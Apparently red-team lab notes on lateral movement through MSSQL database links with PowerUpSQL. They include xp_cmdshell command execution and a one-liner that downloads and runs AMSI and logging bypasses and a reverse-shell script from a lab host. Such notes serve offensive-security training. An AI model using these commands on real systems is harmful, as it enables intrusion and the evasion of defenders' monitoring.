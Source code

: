 
# **MSSQL Servers**



- MS SQL servers are generally deployed in plenty in a Windows domain.
- SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
- For MSSQL and PowerShell hackery, lets use PowerUpSQL
https://github.com/NetSPI/PowerUpSQL



**_Examples_**


- Discovery (SPN Scanning)

```powershell
Get-SQLInstanceDomain
```

- Check Accessibility

```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```


![](https://i.imgur.com/GvA1sd2.png)


- Gather Information

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```


![](https://i.imgur.com/9SWwFqr.png)



> After running the above command and you see that the `ISSysadmin` option is set to **No**, as an attacker, you shouldn't loose interest because we can still extract information






# **MSSQL Servers - Database Links**


- A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. 
- Database links work even across forest trusts.



![](https://i.imgur.com/A5hBH7R.png)



**_Examples_**


- Searching Database Links
- Look for links to remote servers

```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

OR

```powershell
select * from master..sysservers
```



![](https://i.imgur.com/sK1jStA.png)


> Data is accessible via the `DCORP-SQL1` link, this is what we want


- Enumerating Database Links


```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```




![](https://i.imgur.com/xr7rwLQ.png)



- Executing Commands
- Use the `-QuertyTarget` parameter to run Query on a specific instance (without `-QueryTarget` the command tries to use `xp_cmdshell` on every link of the chain)


```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```



![](https://i.imgur.com/AhAmeLt.png)



- Gain reverse shell instead of RCE





```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.1 6.100.1/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql
```




> Make sure to start your **HTTP FIle Server (HFS)** first and upload the file `sbloggingbypass.txt`, `amsibypass.txt` and `Invoke-PowerShellTcpEx.ps1` in other to host them




# **Learning Objective 22**


- Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.


## **Solution**   

**_Coming Soon_**


# **References**


- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql
- https://www.powershellgallery.com/



